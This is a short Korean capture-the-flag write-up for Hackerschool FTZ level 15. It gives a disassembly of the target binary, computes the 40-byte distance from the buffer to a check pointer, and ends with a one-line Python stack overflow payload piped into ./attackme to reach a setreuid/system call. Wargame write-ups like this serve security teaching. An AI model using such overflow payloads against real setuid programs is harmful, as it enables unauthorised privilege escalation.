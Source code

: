 Hackerschool FTZ level15
===
14번이랑 비슷한 문제지만 check가 pointer라는 차이가 있다 

~~~
0x08048490 <main+0>:    push   ebp

0x08048491 <main+1>:    mov    ebp,esp

0x08048493 <main+3>:    sub    esp,0x38

0x08048496 <main+6>:    sub    esp,0x4

0x08048499 <main+9>:    push   ds:0x8049664

0x0804849f <main+15>:   push   0x2d

0x080484a1 <main+17>:   lea    eax,[ebp-56]

0x080484a4 <main+20>:   push   eax

0x080484a5 <main+21>:   call   0x8048360 <fgets>

0x080484aa <main+26>:   add    esp,0x10

0x080484ad <main+29>:   mov    eax,DWORD PTR [ebp-16]

0x080484b0 <main+32>:   cmp    DWORD PTR [eax],0xdeadbeef

0x080484b6 <main+38>:   jne    0x80484dd <main+77>

0x080484b8 <main+40>:   sub    esp,0x8

0x080484bb <main+43>:   push   0xc18

0x080484c0 <main+48>:   push   0xc18

0x080484c5 <main+53>:   call   0x8048380 <setreuid>

0x080484ca <main+58>:   add    esp,0x10

0x080484cd <main+61>:   sub    esp,0xc

0x080484d0 <main+64>:   push   0x8048548

0x080484d5 <main+69>:   call   0x8048340 <system>

0x080484da <main+74>:   add    esp,0x10

0x080484dd <main+77>:   leave

0x080484de <main+78>:   ret

0x080484df <main+79>:   nop

출처: http://savefile.tistory.com/151 [해커 스토리]
~~~

여기서 0xdeadbeef의 주소를 check에 넣으면 
그pointer를 비교하므로 0xdeadbeef가 나오게 된다 그리고 buf와 check의 차이는 전과 같이 
>buf에서 *check까지의 거리 = 56-16 = 40

>(python -c 'print "\x90"*40+"\xb2\x84\x04\x08"';cat)|./attackme
